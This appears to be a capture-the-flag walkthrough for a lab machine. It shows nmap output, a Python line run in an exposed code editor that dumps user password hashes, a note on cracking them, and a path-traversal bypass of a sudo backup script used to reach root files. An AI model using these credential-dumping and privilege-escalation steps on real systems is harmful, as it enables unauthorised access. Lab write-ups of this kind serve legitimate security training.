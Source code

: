 # nmap

`╰─❯ sudo nmap -sV 10.10.11.62
Password:
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-05-20 15:14 EEST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.45% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 51.50% done; ETC: 15:14 (0:00:02 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.17% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.03% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 15:14 (0:00:06 remaining)
Nmap scan report for 10.10.11.62
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.83 seconds`

from nmap we notice that theres http open in port 5000 and when you go to it you will find a online code editor for python

# user

after 30 mins of searching you can see that it might be a flask app with sqlalchemy running in it so a code like this will dump the hashes of the users

`print([(user.id, user.username, user.password) for user in User.query.all()])`

> [(1, ‘development’, ‘759b74ce43947f5f4c91aeddc3e5bad3’), (2, ‘martin’, ‘3de6f30c4a09c27fc71932bfc68474be’)]

using crackstation you can find the password of ssh of the user martin

# privilege escalation

theres an app-producion directory that requires root so that is our target.

using sudo -l will tell the things we can run in sudo mode as martin and we will notice that theres a backup bash code that edits task.json

```bash
martin@code:~/backups$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```

so that means we can edit the directories to archive to any file we want so we will put user.txt and to go to root we will use the ../ method

/home/…./root

run the bash after editing the files
